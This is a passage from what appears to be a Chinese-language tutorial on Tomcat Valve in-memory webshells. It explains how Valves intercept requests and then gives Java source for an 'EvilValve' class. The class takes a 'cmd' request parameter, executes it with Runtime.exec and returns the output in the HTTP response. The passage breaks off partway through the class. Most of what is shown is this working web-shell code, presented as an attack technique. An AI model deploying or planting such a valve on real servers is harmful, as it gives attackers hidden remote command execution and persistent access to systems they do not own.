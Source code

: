 ![image](https://user-images.githubusercontent.com/55024146/144616650-c6a9df8f-36ed-4063-9874-eb7a82b7a27c.png)


### Valve 内存马

Tomcat内部Valve组件,与Filter, Interceptor这些概念类似.只不过Valve是针对Tomcat内部的，而Filter是Servlet的标准, Interceptor是基于框架层次上的.但是它们的工作方式都是一种责任链的传递来拦截Request, Response，然后进行自定义的处理。所以这里的valve型内存马也和之前的差不多，自定义一个含有恶意代码处理逻辑的valve接口的实现或valve接口实现类的继承，然后通过tomcat自带的机制添加即可。

#### 静态添加 valve

首先自定义可执行cmd的valve，实现Valve接口并重写其成员方法，核心代码块在invoke方法里

> EvilValve.java
>
> ```java
> package com.example.tomcat8;
> 
> import org.apache.catalina.Valve;
> import org.apache.catalina.connector.Request;
> import org.apache.catalina.connector.Response;
> 
> import javax.servlet.ServletException;
> import java.io.IOException;
> 
> public class EvilValve implements Valve{
>     @Override
>     public Valve getNext() {
>         return null;
>     }
> 
>     @Override
>     public void setNext(Valve valve) {
> 
>     }
> 
>     @Override
>     public void backgroundProcess() {
> 
>     }
> 
>     @Override
>     public void invoke(Request request, Response response) throws IOException, ServletException {
>         String cmd = request.getParameter("cmd");
>         if (cmd != null) {
>             Process process = Runtime.getRuntime().exec(cmd);
>             java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
>                     new java.io.InputStreamReader(process.getInputStream())
>             );
>             StringBuilder stringBuilder = new StringBuilder();
>             String line;
>             while ((line = bufferedReader.readLine()) != null) {
>                 stringBuilder.append(line + '\n');
>             }
>             response.getOutputStream().write(stringBuilder.toString().getBytes());
>             response.getOutputStream().flush();
>             response.getOutputStream().close();
>             getNext().invoke(request, response);
>         }else {
>             getNext().invoke(request, response);
>         }
>     }
> 
>     @Override
>     public boolean isAsyncSupported() {